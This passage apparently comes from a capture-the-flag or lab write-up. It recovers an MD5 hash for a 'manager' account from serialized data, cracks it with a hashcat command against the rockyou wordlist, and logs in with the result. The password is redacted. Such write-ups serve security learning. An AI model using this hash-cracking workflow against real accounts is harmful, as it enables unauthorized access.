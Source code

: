 In there we see a password hash which appears to be an md5 hash for the user manager:

```
"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
```

Running that through hashcat cracks the password quickly:

`hashcat -m 0 -w 3 -D 1,2 "42f749ade7f9e195bf475f37a44cafcb" rockyou.txt`

```
42f749ade7f9e195bf475f37a44cafcb:<REDACTED>

Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 42f749ade7f9e195bf475f37a44cafcb
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

Heading back over to the login page at /content/as I try and login with these credentials and it works:
